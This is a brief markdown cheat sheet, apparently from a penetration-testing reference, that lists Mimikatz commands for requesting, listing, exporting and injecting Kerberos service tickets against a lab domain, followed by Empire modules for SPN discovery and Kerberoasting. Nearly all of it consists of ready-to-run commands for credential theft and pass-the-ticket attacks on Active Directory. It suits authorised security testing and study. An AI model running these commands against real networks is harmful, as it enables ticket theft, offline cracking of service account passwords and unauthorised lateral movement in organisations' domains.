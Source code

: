 # Mimikatz

**Service Ticket Request**
```
kerberos::ask /target:PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80
```
**List Available Tickets**
```
kerberos::list
```
**Export Service Tickets**
```
kerberos::list /export
```
**Inject Ticket**
```
kerberos::ptt PENTESTLAB.kirbi
```
# Empire

**SPN Discovery**
```
usemodule situational_awareness/network/get_spn
```
**Kerberoast**
```
usemodule credentials/invoke_kerberoast
```
